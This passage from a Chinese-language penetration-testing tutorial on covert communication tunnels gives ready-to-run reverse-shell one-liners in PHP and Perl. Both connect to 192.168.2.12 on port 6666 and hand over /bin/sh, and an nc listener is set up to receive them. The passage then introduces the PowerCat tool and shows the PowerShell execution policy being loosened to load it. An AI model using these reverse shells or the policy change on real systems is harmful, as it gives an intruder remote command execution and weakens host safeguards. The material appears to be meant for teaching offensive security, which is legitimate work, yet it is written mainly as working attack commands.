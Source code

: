 客户端执行命令反弹shell给服务端：

```
php -r '$sock=fsockopen("192.168.2.12",6666);exec("/bin/sh -i <&3 >&3 2>&3");'
```

（13）perl反弹shell

服务端监听本地端口6666：
```
nc -lvp 6666
```
客户端执行命令反弹shell给服务端：

```
perl -e 'use Socket;$i="192.168.2.12";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

参考文章：https://www.anquanke.com/post/id/87017

##### 4.3：PowerCat
PowerCat可以说是nc的Powershell版本。

PowerCat可以通过执行命令回到本地运行，也可以使用远程权限运行。

下载地址：https://github.com/besimorhino/powercat.git

（1）PowerCat的下载

下载完成后，要想使用需要先导入模块：

```
Import-Module .\powercat.ps1
```

![](./img/隐藏通信隧道基础知识/45.png)

报错是Powershell的权限问题，我们可以吧权限设置成RemotoSigned，然后再导入模块：

```
Set-ExecutionPolicy RemoteSigned
```

![](./img/隐藏通信隧道基础知识/46.png)
